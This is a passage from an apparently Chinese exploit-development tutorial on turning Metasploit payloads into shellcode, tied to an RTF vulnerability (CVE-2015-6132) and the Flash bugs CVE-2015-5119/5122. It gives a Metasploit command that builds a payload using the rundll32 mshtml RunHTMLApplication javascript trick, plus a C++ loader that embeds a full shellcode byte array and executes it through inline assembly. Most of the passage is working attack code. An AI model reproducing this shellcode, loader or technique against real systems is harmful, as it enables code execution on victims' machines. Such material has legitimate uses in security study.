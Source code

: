 即使此时关闭CVE-2015-6132.rtf，shell仍然可以继续操作

0x05 转换成shellcode
=================

* * *

**开发工具：**`msf、vc6.0`

**结合漏洞：**`CVE-2015-5119&CVE-2015-5122`

**细节可参考：**[http://zone.wooyun.org/content/21586](http://zone.wooyun.org/content/21586)

使用`vc6.0`测试msf shellcode的技巧：

### 1、以messagebox举例

**msf：**

```
use windows/messagebox
set TEXT rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";
generate -t c

```

如图![Alt text](http://drops.javaweb.org/uploads/images/eb8c0c04454e98aeeb8ece508f3ee35d93803a7c.jpg)

不难看出msf也存在转义字符

放在c++中测试msf shellcode，代码如下

```
#include "stdafx.h"

int main(int argc,char *argv[]) 
{ 
unsigned char buf[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x3b\x58\x20\x20\x68\x69\x6f\x6e\x20\x68\x69\x63\x61\x74"
"\x68\x41\x70\x70\x6c\x68\x48\x54\x4d\x4c\x68\x2c\x52\x75\x6e"
"\x68\x68\x74\x6d\x6c\x68\x2e\x2e\x6d\x73\x68\x69\x70\x74\x3a"
"\x68\x61\x73\x63\x72\x68\x20\x6a\x61\x76\x68\x2e\x65\x78\x65"
"\x68\x6c\x6c\x33\x32\x68\x72\x75\x6e\x64\x31\xc9\x88\x4c\x24"
"\x35\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";
__asm{
        lea eax,buf
        call eax
    }
    return 0;
}

```
